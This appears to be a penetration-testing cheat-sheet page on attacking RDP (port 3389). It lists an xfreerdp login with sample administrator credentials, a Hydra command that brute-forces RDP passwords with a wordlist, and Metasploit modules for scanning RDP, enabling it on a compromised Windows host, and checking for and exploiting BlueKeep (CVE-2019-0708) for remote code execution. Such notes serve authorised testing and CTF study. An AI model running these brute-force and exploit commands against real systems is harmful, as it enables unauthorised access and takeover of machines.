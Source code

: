 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# 3389 - RDP

## XfreeRDP

```bash
# Connect with AUTHENTICATION
xfreerdp /u:Administrator /p:password123 /v:$IP:$PORT
```

## Hydra

```bash
hydra -l "Administrator" -P /wordlists/passwords.txt rdp://$IP -s $PORT
```

## MSFconsole

```bash
# Checking RDP present, none default `port:3389`
auxiliary/scanner/rdp/rdp_scanner

# Enabling RDP
post/windows/manage/enable_rdp

# Scan OS, if it's vulnerable to bluekeep
auxiliary/scanner/cve_2019_0708_bluekeep

# Exploit the bluekeep (64 bit)
exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```
